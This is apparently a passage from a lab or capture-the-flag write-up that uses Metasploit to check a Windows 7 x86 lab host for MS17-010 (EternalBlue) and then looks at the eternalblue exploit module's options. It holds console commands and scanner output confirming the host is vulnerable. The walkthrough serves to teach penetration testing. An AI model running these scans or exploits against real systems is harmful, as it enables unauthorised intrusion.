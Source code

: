     Module options (auxiliary/scanner/smb/smb_ms17_010):
    
       Name         Current Setting                                                 Required  Description
       ----         ---------------                                                 --------  -----------
       CHECK_ARCH   true                                                            no        Check for architecture on vulnerable hosts
       CHECK_DOPU   true                                                            no        Check for DOUBLEPULSAR on vulnerable hosts
       CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
       NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
       RHOSTS                                                                       yes       The target address range or CIDR identifier
       RPORT        445                                                             yes       The SMB service port (TCP)
       SMBDomain    .                                                               no        The Windows domain to use for authentication
       SMBPass                                                                      no        The password for the specified username
       SMBUser                                                                      no        The username to authenticate as
       THREADS      1                                                               yes       The number of concurrent threads
    
    msf5 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.1.1.13
    RHOSTS => 10.1.1.13
    msf5 auxiliary(scanner/smb/smb_ms17_010) > run
    
    [+] 10.1.1.13:445         - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x86 (32-bit)
    [*] 10.1.1.13:445         - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    

#### Built In

That’s good, and confirms what I already know from AutoBlue. The output from
the scan shows this is a x86 system, which is a problem, as the standard
Metasploit modules for MS17-010 only target x64 systems.

I can switch to the `exploit/windows/ms17_010_eternalblue` module, but when I
run `options` and `show targets`, I’ll see only x64 is supported:

    
    
    msf5 exploit(windows/smb/ms17_010_eternalblue) > options
    
    Module options (exploit/windows/smb/ms17_010_eternalblue):
    
       Name           Current Setting  Required  Description
       ----           ---------------  --------  -----------
       RHOSTS                          yes       The target address range or CIDR identifier
       RPORT          445              yes       The target port (TCP)
       SMBDomain      .                no        (Optional) The Windows domain to use for authentication
       SMBPass                         no        (Optional) The password for the specified username
       SMBUser                         no        (Optional) The username to authenticate as
       VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
       VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
    